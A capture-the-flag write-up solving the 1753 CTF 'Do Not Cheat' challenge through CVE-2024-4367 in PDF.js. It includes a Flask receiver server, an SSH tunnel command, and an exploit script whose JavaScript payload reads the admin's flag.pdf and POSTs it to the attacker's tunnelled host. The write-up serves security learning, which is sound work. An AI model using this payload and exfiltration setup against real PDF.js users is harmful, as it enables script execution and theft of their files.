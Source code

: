 # 1753 CTF - Do Not Cheat

My teammate found this challenge is vulnerable to [CVE-2024-4367](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-4367), and the PoC script can be found [here](https://github.com/LOURC0D3/CVE-2024-4367-PoC).

> A type check was missing when handling fonts in PDF.js, which would allow arbitrary JavaScript execution in the PDF.js context. This vulnerability affects Firefox &lt; 126, Firefox ESR &lt; 115.11, and Thunderbird &lt; 115.11.

So the basic roadmap is: we host a malicious PDF file and report the URL to admin, when the admin bot visits this URL, the JavaScript code will be executed and we can open `/app/admin/flag.pdf`, then send the content to our server.

However, when we tried to host the PoC PDF document, my teammate's server failed on SSL handshake, and I used to use Ngrok to tunnel my local service to the internet, but since I’m on the free plan, Ngrok will show an interstitial page before redirecting to my local service. After some trials, I decided to use [serveo.net](https://serveo.net/). This allowed me to do the same thing without needing to install any additional dependencies (just SSH is required).

## Approach

So here's the full approach:

### Step 1

I start a local Flask server to host the PoC PDF document, and also to receive the content of `flag.pdf`.

```python
from flask import Flask, request, make_response, send_file

app = Flask(__name__)


@app.route("/pdf")
def serve_pdf():
    pdf_path = "poc.pdf"
    try:
        response = make_response(send_file(pdf_path, mimetype="application/pdf"))
        response.headers["Access-Control-Allow-Origin"] = "*"
        return response
    except FileNotFoundError:
        return {"error": "PDF not found"}, 404


@app.route("/flag", methods=["POST", "OPTIONS"])
def receive_flag():
    resp = make_response()
    if request.method == "OPTIONS":
        resp.headers["Access-Control-Allow-Origin"] = "*"
        resp.headers["Access-Control-Allow-Methods"] = "POST, OPTIONS"
        resp.headers["Access-Control-Allow-Headers"] = "Content-Type"
        return resp

    try:
        pdf_data = request.data
        with open("flag.pdf", "wb") as f:
            f.write(pdf_data)
    except Exception as error:
        print(error)
    finally:
        return resp


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5003)
```

Tips:

- Make sure to set the `Access-Control-Allow-Origin` header.
- Route `/flag` is for receiving the content of `flag.pdf`. Note that the challenge server will also send an `OPTIONS` request (and this is because we set `"Content-Type": "application/pdf"` in the XSS payload), so our Flask server needs to respond to it as well.  
  ![1.jpg](1.jpg)
- Use `host="0.0.0.0"` instead of `host="127.0.0.1"`, so that the service is accessible after tunneling to the internet. (Otherwise you may get a `403`.)

Then start the server:

```bash
python server.py
```

### Step 2

Run:

```bash
ssh -R 80:localhost:5003 serveo.net
```

And we will get something like:

```
Forwarding HTTP traffic from https://d92bd2c7f1326cf5a70cde1b2249c411.serveo.net
```

This is the public URL of our local service.

### Step 3

Now we generate malicious `poc.pdf` file. Download [`CVE-2024-4367.py`](https://github.com/LOURC0D3/CVE-2024-4367-PoC), create our `exp.py` as follows:

```python
import os

# ssh -R 80:localhost:5003 serveo.net
public_url = "https://d92bd2c7f1326cf5a70cde1b2249c411.serveo.net"

payload = f"""
fetch("/app/admin/flag.pdf")
.then(res => res.blob())
.then(blob =>
    fetch(
        "{public_url}/flag",
        {{
            method: "POST",
            body: blob,
            headers: {{"Content-Type": "application/pdf"}}
        }}
    )
)
"""

payload = payload.replace(" ", "").replace("\n", "")
print(payload)
os.system(f"python CVE-2024-4367.py '{payload}'")

print(f"Report to admin: https://do-not-cheat-bb7d7982d597.1753ctf.com/report?document={public_url}/pdf")
```

Run the script:

```bash
python exp.py
```

And we will get something like:

```
[+] Created malicious PDF file: poc.pdf
[+] Open the file with the vulnerable application to trigger the exploit.
Report to admin: https://do-not-cheat-bb7d7982d597.1753ctf.com/report?document=https://d92bd2c7f1326cf5a70cde1b2249c411.serveo.net/pdf
```

### Step 4

Open the URL, wait a while, and we will get `flag.pdf`.

![2.jpg](2.jpg)

## Flag
```
1753c{m0zz4r3ll4_pdfjs_h4d_4_bug}
```
